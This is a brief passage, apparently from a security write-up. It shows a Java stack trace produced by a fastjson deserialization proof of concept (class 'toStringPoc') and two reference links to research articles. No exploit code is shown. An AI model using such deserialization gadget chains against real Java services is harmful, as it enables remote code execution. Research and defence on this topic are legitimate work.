at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.fastjson.toStringPoc.unserialize(toStringPoc.java:52)
at org.fastjson.toStringPoc.main(toStringPoc.java:33)
```

> https://goodapple.top/archives/832
>
> https://xz.aliyun.com/news/14309
